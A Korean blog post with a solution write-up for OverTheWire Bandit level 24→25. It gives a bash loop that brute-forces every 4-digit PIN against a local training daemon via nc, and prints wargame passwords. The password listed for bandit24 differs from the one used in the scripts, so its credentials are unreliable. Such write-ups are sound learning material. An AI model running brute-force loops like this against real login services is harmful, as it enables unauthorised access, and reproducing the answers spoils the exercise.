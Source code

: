 ```yaml
---
layout: post
title: "[Bandit] Level 24 → 25 풀이"
date: 2025-07-05 09:05:00 +0900
categories: [bandit]
tags: [overthewire, bandit, linux, brute-force, shell-script]
---
```


> 📝 **공식 문제 (Level 24 → 25)**
>
> **Level Goal**
> A daemon is listening on port 30002 and will give you the password for bandit25 if you send it the password for bandit24 and a 4 digit numeric PIN code.
>
> **Commands you may need to solve this level**
> `nc`, `telnet`

---

## 🔐 Level Info

- **접속 정보**
  - 사용자: `bandit24`
  - 비밀번호: `D2J41fb8mpcr9hjsf32ECf2d012eK2g9`
  
- **접속 명령어**

  ```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
  ```

---

## 🧪 풀이 과정

1.  `localhost:30002`로 접속하여 현재 비밀번호와 4자리 PIN을 입력해야 함을 확인
2.  0000부터 9999까지 모든 PIN을 시도하는 `for` 루프 쉘 스크립트 작성
3.  스크립트를 실행하여 올바른 PIN을 찾고 다음 비밀번호 획득

```bash
# 풀이용 스크립트 파일 (brute.sh) 내용
#!/bin/bash
PASS="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"
for i in {0000..9999}
do
  echo "$PASS $i"
done | nc localhost 30002 | grep -v "Wrong"
```

## 🧪 다른 풀이 방법
1.  스크립트 파일 없이, 터미널에서 한 줄로 for 루프를 실행

```bash
bandit24@bandit:~$ for i in {0000..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002 | grep -v "Wrong"
```

---

## 🎯 결과

<details markdown="1">
<summary>👀 클릭하여 비밀번호 확인하기</summary>

```bash
pOhf1B4V482m1D5OPs2f42a5M7i42oSb
```

</details>

---

## 💡 배운 점
1. 쉘 스크립트 for 루프를 이용한 Brute-force 공격
2. {0000..9999}: 0으로 채워진 4자리 숫자를 순차적으로 생성함.
3. grep -v "Wrong": "Wrong"이 포함된 줄을 제외하고 출력하여, 성공한 결과만 필터링함.

    ---
